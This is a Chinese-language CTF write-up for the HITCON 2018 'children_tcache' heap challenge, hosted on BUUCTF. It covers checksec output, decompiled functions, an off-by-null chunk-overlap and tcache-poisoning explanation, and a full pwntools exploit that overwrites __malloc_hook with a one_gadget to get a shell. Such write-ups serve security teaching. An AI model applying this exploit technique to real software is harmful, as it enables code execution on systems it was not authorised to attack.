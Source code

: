 # BUU-hitcon2018_children_tcache

## checksec

```shell
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

## IDA

**add**

```c
unsigned __int64 add()
{
  int i; // [rsp+Ch] [rbp-2034h]
  char *dest; // [rsp+10h] [rbp-2030h]
  unsigned __int64 size; // [rsp+18h] [rbp-2028h]
  char s[8216]; // [rsp+20h] [rbp-2020h] BYREF
  unsigned __int64 v5; // [rsp+2038h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  memset(s, 0, 0x2010uLL);
  for ( i = 0; ; ++i )
  {
    if ( i > 9 )
    {
      puts(":(");
      return __readfsqword(0x28u) ^ v5;
    }
    if ( !heap_array[i] )
      break;
  }
  printf("Size:");
  size = sub_B67();
  if ( size > 0x2000 )
    exit(-2);
  dest = (char *)malloc(size);
  if ( !dest )
    exit(-1);
  printf("Data:");
  sub_BC8(s, (unsigned int)size);
  strcpy(dest, s);                              // off-by-null
  heap_array[i] = dest;
  size_array[i] = size;
  return __readfsqword(0x28u) ^ v5;
}
```

**show**

```c
int show()
{
  __int64 v0; // rax
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  printf("Index:");
  v2 = sub_B67();
  if ( v2 > 9 )
    exit(-3);
  v0 = heap_array[v2];
  if ( v0 )
    LODWORD(v0) = puts((const char *)heap_array[v2]);
  return v0;
}
```

**dele**

```c
int dele()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  printf("Index:");
  v1 = sub_B67();
  if ( v1 > 9 )
    exit(-3);
  if ( heap_array[v1] )
  {
    memset((void *)heap_array[v1], 218, size_array[v1]);
    free((void *)heap_array[v1]);
    heap_array[v1] = 0LL;
    size_array[v1] = 0LL;
  }
  return puts(":)");
}
```

漏洞是`off-by-null`，而远程的libc还没有tcache的`double free`的检查。通过`off-by-one`，我们能做到清空下一个chunk的`prev_inuse`位，这点可以导致`overlapping`。

首先，申请三个chunk。chunk_0和chunk_2要是large bin，这样就不会进入tcache中，我们通过chunk_1，清除chunk_2的`prev_inuse`位，并将prev_size域设为`chunk_0+chunk_1`的大小，让chunk_2认为前面有一块巨大的更大的chunk。在做这一步之前，要首先将chunk_0 free掉，不然在后续的free中会出现size与prev_size的不匹配，导致程序退出。

之后free掉chunk_2，此时这三个chunk被合并加入了`unsorted bin`中，然后，申请和最开始chunk_0同样大小的chunk，`unsorted bin`中的chunk被分割，原本的chunk_1+chunk_2被加入`unsorted bin`。注意，这时chunk_1还在被我们使用中，所以可以通过`show`来leak libc。

接着，想办法控制程序执行流。再次，将chunk_1申请回来，这样我们就有两个chunk，指向chunk_1，使用`tcache_psisoning`获得`__malloc_hook`附近的chunk，填入one_gadget，从而get shell。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
from struct import pack
leak = lambda name,addr: log.success('{0} addr ---> {1}'.format(name, hex(addr)))
context.arch="amd64"
local=0
binary='./HITCON_2018_children_tcache'
#gdb.attach(sh)
if local:
    context.log_level="DEBUG"
    sh=process(binary)
else:
	sh=remote('node3.buuoj.cn',25968)

elf = ELF(binary,checksec=False)
#libc = ELF('./libc-2.27.so',checksec=False)
heap_array=0x202060
free_got = elf.got['free']

def add(size, content):
    sh.recvuntil('choice: ')
    sh.sendline('1')
    sh.sendlineafter('Size:', str(size))
    sh.sendlineafter('Data:', str(content))

def show(idx):
    sh.recvuntil('choice: ')
    sh.sendline('2')
    sh.sendlineafter('Index:', str(idx))

def free(idx):
    sh.recvuntil('choice: ')
    sh.sendline('3')
    sh.sendlineafter('Index:', str(idx))

add(0x4f8,'a') #0 0x500
add(0x78,'b')   #1  0x80
add(0x4f8,'c') #2 0x500
add(0x18,'/bin/sh\x00') #3

free(1)
free(0)
#clear chunk_3's prev_inuse bit

for i in range(0,8):
    add((0x78-i),'a'*(0x78-i)) #0 0x80
    free(0)

add(0x78,'b'*0x70+p64(0x580))   #0  0x80

free(2)
add(0x4f8,'c'*0x4f7) #1
#gdb.attach(sh)
show(0)

main_arena = u64(sh.recvuntil('\x7f').ljust(8,'\x00'))-96
malloc_hook = main_arena-0x10
libc=LibcSearcher('__malloc_hook',malloc_hook)
libcbase=malloc_hook-libc.dump('__malloc_hook')
one_gadget = libcbase + 0x4f322
leak('libcbase',libcbase)

add(0x78,'a') #2
free(0)
free(2)
add(0x78,p64(malloc_hook)) #0
add(0x78,p64(malloc_hook)) #2
add(0x78,p64(one_gadget)) #4

sh.recvuntil('choice: ')
sh.sendline('1')
sh.sendlineafter('Size:', str(12))

sh.interactive()
```

注意`strcpy`本身会被'\x00'截断，所以通过循环`off-by-null`的方式修改`prev_size`。
